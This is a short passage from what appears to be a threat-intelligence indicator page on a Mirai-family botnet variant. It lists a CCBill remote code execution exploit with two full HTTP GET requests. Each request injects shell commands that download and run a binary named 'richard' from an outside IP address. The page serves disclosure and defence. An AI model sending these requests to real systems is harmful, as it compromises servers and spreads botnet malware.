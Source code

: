|[CCBill Remote Code Execution](https://autofocus.paloaltonetworks.com/#/tag/Unit42.CCBillRCE)|CCBill Online Payment Systems|80|```GET /ccbill/whereami.cgi?g=cd /tmp; wget http://145.249.106.241/richard; curl -O http://145.249.106.241/richard; chmod +x richard; ./richard HTTP/1.1```<br><br>```GET /cgi-bin/ccbill/whereami.cgi?g=cd /tmp; wget http://145.249.106.241/richard; curl -O http://145.249.106.241/richard; chmod +x richard; ./richard HTTP/1.1```|

Other exploits in this variant have been mentioned in previous publications [here](https://github.com/pan-unit42/iocs/blob/master/mirai/ECHOBOT_6thAug2019.md) and [here](https://unit42.paloaltonetworks.com/new-mirai-variant-adds-8-new-exploits-targets-additional-iot-devices/).
